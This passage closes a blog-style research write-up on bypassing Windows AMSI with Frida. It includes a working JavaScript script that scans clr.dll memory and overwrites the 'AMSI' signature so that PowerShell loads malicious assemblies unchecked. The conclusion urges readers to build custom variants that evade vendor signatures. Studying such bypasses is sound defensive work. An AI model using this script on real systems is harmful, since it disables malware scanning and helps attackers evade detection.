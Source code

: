 ```javascript
			output.push(currentPtr);
		}
	}
	return output;
}


var clr = Process.getModuleByName("clr.dll");
var ranges = clr.enumerateRanges("rw-");

var pointers = []
for (var r of ranges) {
	console.log("Scanning clr.dll memory range starting @ " + r.base);
	var newPointers = scanForPointers(r.base, r.size);
	pointers.push(...newPointers);
}
console.log("Identified " + pointers.length + " valid pointers.");

for (var p of pointers) {
	var signature = p.readCString(4);
	if (signature === "AMSI") {
		console.log("Found 'AMSI' signature @ " + p.toString());
		p.writeByteArray([0x31, 0x33, 0x33, 0x37]);
		console.log("Replaced with '1337'.")
	}
}
```

If we run this script against our Powershell process once again, we'll see that even reflection is now exempt from being stopped by AMSI:

![a screenshot of an AMSI patcher that works on the CLR](/img/amsipatch_reflection_during.png)
![a screenshot of a patched powershell allowing malicious assemblies to load](/img/amsipatch_reflection_after.png)

The heap scanning example we used previously would probably work as well - as long as you have some understanding of which module is intrumenting AMSI and where they keep their variables, you have a pretty good shot at bypassing it.

## Conclusion

We've established that AMSI is more like a speed bump than a roadblock for any attacker who controls the process they're attacking. On that note, it's worth pointing out that Frida was not running as a local admin in any of the examples given in this article. 

I don't think that's a particularly new conclusion to draw, but exploring the process (no pun intended) gave me a really good understanding of all the dials and levers you can tweak to break AMSI in different and interesting ways. Even if the AMSI bypass you get off the shelf works just fine, I think there's something to be said for understanding the process well enough that you can iterate on it and create your own versions of tools and techniques that don't appear in any vendor's signature database.

